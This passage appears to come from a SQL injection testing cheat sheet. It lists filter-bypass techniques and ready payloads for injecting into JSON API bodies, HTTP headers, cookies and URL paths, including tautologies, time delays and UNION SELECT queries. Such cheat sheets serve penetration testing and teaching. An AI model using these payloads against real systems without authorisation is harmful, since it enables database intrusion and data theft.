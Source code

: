 
→ Always check **both reflected and stored** flows.

### **Bypass Techniques**

| Method | Example |
| --- | --- |
| Case Swapping | `UnIoN SeLeCt` |
| Inline Comments | `UNI/**/ON SEL/**/ECT` |
| Hex Encoded | `0x41414141` |
| String Concatenation | `'UN' + 'ION SELECT'` |
| Whitespaces | `%0a`, `%09`, `%0b`, `%0c`, `+`, etc. |
| Encoding | Use `%27`, `%2F`, `%5C` |
| Char functions | `CHAR(65)+CHAR(66)` |

### **SQLi in Other Contexts**

1️⃣ **SQLi via JSON Body (API)**

```json
{
  "username": "' OR 1=1 --",
  "password": "abc"
}
```

> Use tools like Postman or Burp Repeater to test these endpoints.
> 

---

2️⃣ **SQLi in HTTP Headers**

```
User-Agent: ' OR '1'='1
Referer: ' OR 1=1 --
X-Forwarded-For: ' OR SLEEP(5) --
```

---

3️⃣ **SQLi in Cookies**

```
Cookie: sessionid=abc' OR '1'='1
```

---

4️⃣ **SQLi in URL Path**

```
/profile/1' AND 1=1 --/
/api/data/' UNION SELECT version() --/

```

---